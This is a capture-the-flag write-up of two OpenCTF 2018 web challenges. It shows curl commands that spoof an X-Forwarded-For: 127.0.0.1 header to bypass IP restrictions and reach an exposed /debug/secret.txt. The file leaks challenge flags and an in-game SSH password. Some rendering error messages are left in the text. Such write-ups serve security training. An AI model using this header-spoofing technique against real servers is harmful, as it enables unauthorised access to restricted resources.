 ```yaml
---
title: "OpenCTF 2018 - Forbidden Folly 1 & 2 Writeup"
slug: "openctf-2018-forbidden-folly-1-2-writeup"
date: "2018-08-14 22:40:45.421331"
author_name: "tecknicaltom"
author_email: "tecknicaltom@neg9.org"
draft: false
toc: false
images:
---
```


{language=python}
~~~~~~~~
Forbidden Folly 1 50 ---
Welcome to Hacker2, where uptime is a main prority: http://172.31.2.90

Forbidden Folly 2 50 ---
It seems like out of towners are terrible at scavenger hunts: http://172.31.2.91
~~~~~~~~

These challenges from OpenCTF 2018 at Defcon 26 were simple web challenges that took us way more time to solve than it should have.

Attempting to visit the page linked to in the hint only resulted in a 403 Forbidden response. Eventually an organizer alluded to the server caring about the origin of the request. This led us down the incorrect path of attempting to make the request with an `Origin` HTTP header.

Eventually though, we figured out that requesting the resource with an `X-Forwarded-For` HTTP header was the key:

"System Message: ERROR/3 (<string>:, line 15)"
Error in "code" directive:
maximum 1 argument(s) allowed, 6 supplied.

{language=python}
~~~~~~~~
.. code:: curl -v http://172.31.2.90/' -H 'X-Forwarded-For: 127.0.0.1'

~~~~~~~~

This returned an HTML page for the "HackerTwo System Status" page, and at the bottom of the source is the flag:

"System Message: ERROR/3 (<string>:, line 19)"
Error in "code" directive:
maximum 1 argument(s) allowed, 3 supplied.

{language=python}
~~~~~~~~
.. code:: <!-- flag(Th4t_WAS_To0_EASY} -->

~~~~~~~~

For the second challenge in the series, we first attempted to add other HTTP request headers that we thought the hint might be alluding to with "out of towners" such as `Accept-Language` but nothing seemed to affect the response.

The "HackerTwo System Status" page contained the following text:

> If at any point all systems stop responding you may want to check the system to verify everything is running properly. Tim placed a web terminal on the system for easy access, the location of that has been emailed to everyone who has access to this portal.

We thought this web terminal might be the key to finding the flag, so keeping the `X-Forwarded-For` header as before, we poked around a bit. Eventually after manually trying a few paths, we found `/debug` on the server returned a directory listing containing `secret.txt`, which contained the flag:

{language=python}
~~~~~~~~
curl -v 'http://172.31.2.91/debug/secret.txt' -H 'X-Forwarded-For: 127.0.0.1'
*   Trying 172.31.2.91...
* TCP_NODELAY set
* Connected to 172.31.2.91 (172.31.2.91) port 80 (#0)
> GET /debug/secret.txt HTTP/1.1
> Host: 172.31.2.91
> X-Forwarded-For: 127.0.0.1
>
< HTTP/1.1 200 OK
< Date: Sat, 11 Aug 2018 23:00:38 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Last-Modified: Tue, 24 Jul 2018 06:38:04 GMT
< ETag: "ea-571b901137e84"
< Accept-Ranges: bytes
< Content-Length: 234
< Vary: Accept-Encoding
< Content-Type: text/plain
<
Chad,

I've created an account for you here on the system. You can log into ssh with the user chad and the password FriendOfFolly^.
Please delete this message after you've read it.

PS: flag{Th3_nexT_0ne_iS_D1ff1cul7}

Thanks,
Grace
~~~~~~~~
